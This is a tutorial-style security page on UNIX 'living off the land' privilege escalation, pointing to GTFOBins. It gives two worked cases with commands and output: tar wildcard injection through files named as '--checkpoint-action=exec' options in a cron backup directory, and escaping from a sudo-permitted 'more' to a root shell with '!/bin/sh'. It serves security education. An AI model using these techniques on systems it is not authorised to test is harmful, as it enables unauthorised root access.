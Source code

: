 # Living off the land

## Theory

Living of the Land is a well known privilege escalation technique, where an attacker will leverage binaries found on the attacked machine to perform a privilege escalation. Indeed, many UNIX programs have options that can be exploited to open a shell. Therefore if we can start the program we exploit as another user, we might be able to open a shell as this user !&#x20;

Most of the payloads to do this on UNIX programs can be found on [gtfobins.github.io](https://gtfobins.github.io).

## Practice

Here are two case study to better understand the principle of these privilege escalations :

### Case study 1 : Privesc using tar and a cronjob

Imagine a scenario where a script backups a directory (that we can control) on the server each hour using `tar` like this :

```
#!/bin/bash

mkdir -p /backups/
cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
```

Notice this interesting pattern `tar czvf file.tar.gz *` in the script. This is a security vulnerability because of how UNIX shells handles wildcards. Let's see an example with the `ls` command :

```
$ ls -lha
total 84K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
$ ls *
file1  file2  file3

$ echo '' > '-lha'
$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
-rw-rw-r--  1 user user    1 avril 27 22:32 -lha
$ ls *
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
```

The shell wildcards are resolved by the shell, and not by the command. This means filenames can be treated as options if they are starting with a `-`. In our previous example, we added a file called `-lha` into the folder. When we type `ls *`, the shell replaces the `*` by all matching files in the current directory, and therefore our command becomes `ls file1 file2 file3 -lha`. After the wildcard resolution, the shell executes the command with our options.

Now if we get back to our script creating a backup of a directory each our with `tar *`, we see that tar have legitimate options allowing execution of a program. You can find them here :

* [https://gtfobins.github.io/gtfobins/tar/#shell](https://gtfobins.github.io/gtfobins/tar/#shell)

To use these options in our exploit, we jut need to create these two files in our directory, as well as the `exploit.sh` file, containing the command we want to run when we trigger the execution :

```
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh exploit.sh'

$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    1 avril 27 22:31 '--checkpoint=1'
-rw-rw-r--  1 user user    1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
-rwxrwxrwx  1 user user  784 avril 27 22:32 exploit.sh
```

We are now ready ! We just need to wait until the directory is backup again, and it will trigger our payload and execute `exploit.sh` file!

### Case study 2 : Privesc using more and sudo

Let's take an example, with this `sudo` configuration :

```
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on PC1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on PC1:
    (ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log
```

In this case `user` can run the `more` command, but only to read a specific log file `/var/log/apache2/access.log` as `root` without password (`NOPASSWD` flag) :&#x20;

```
sudo -u root /usr/bin/more /var/log/apache2/access.log
```

You can assume this would be safe right ? Unfortunately, it's not. The `more` command has various useful options, one of them is `!`. When you're in `more` and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type `!/bin/sh` in `more`, you will open a shell as the owner of the parent `more` process !

```
$ sudo -u root /usr/bin/more /var/log/apache2/access.log
File content line 1
File content line 2
...
File content line n
------------------------
!/bin/sh
# 
uid=0(root) gid=0(root) groups=0(root)
# 
```
